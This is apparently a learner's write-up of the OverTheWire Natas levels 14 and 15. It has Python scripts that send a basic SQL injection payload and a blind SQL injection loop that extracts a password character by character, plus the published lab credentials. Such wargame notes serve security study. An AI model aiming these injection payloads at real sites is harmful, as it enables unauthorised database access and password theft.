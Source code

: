 
2024-07-18 20:49

Source:  #natas #web 

Tags: [[Injection]]
## Natas 14  ->  Basic SQL injection 

```python
import requests
username = 'natas14'
password = 'z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ'

url = 'http://natas14.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()

response = sessions.post(url,data={ "username" : 'aaam" OR 1=1 #' , "password" : "mango"},auth = (username,password))

print(response.text)
```
here on seeing the source code we see that we have a `debug` parameter that will show us the query that is made on the DB 

`#`  - comment the rest of the query 

injecting the following in the username will give the pass
```
'anything" OR 1=1 #'
```
## Natas 15  ->  Blind SQL Injection 

- the anything character or the wild-card character in a SQL `like` statement is `%`
- putting `BINARY` right before the field in the Select statement we'll make that field case sensitive
- we loop through all the characters for every position of the password [[BlindSQL]]

```python
import requests
import string
characters = string.ascii_letters + "0123456789"  

username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

url = 'http://natas15.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()  #initialze the empty seen password list

while (True):
    for ch in characters:
        print("trying character with password" , "".join(seen) + ch)

        response = sessions.post(url,data={ "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen) + ch +'%" #'},auth = (username,password))
        
        #example. if `hWs%` returns as user exists then the password starts with `hWs....` 

        content = response.text   #crucial step to log the response.text in a variable as we will further check the "user exists" string and determine if the character is a part of the password or not 
        
        if "user exists" in content:
            seen.append(ch)
            break #break out of the for loop and start again 
```

### References
https://www.youtube.com/watch?v=krp0qCOAnFE&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=12